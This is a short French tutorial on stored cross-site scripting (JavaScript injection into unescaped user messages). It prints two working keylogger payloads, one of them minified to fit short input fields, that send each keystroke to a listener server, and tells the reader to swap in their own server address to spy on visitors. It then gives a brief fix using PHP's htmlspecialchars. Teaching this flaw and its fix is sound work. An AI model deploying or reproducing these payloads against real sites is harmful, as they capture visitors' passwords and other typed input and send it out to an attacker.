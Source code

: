 # Injection JS

## Explication de la faille

Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.

```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
    http.send();
}
</script>
```

Voici une version de ce même script obfuscer afin de le faire passer dans des champs plus courts.
```html
<script>var u=Math.round(Math.random()*1000000);document.getElementsByTagName("html")[0].onkeypress=(e)=>{var h=new XMLHttpRequest();h.open("GET",`http://127.0.0.1:8081/${u}?l=${(e.which||e.keyCode)}`,true);h.send()}</script>
```

Dans les deux cas, il faudra remplacer l'URL `127.0.0.1` par l'URL du serveur que vous utiliserez pour l'espionnage du client.

## Explication du correctif

Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` (ou équivalent dans le langage utilisé) qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.
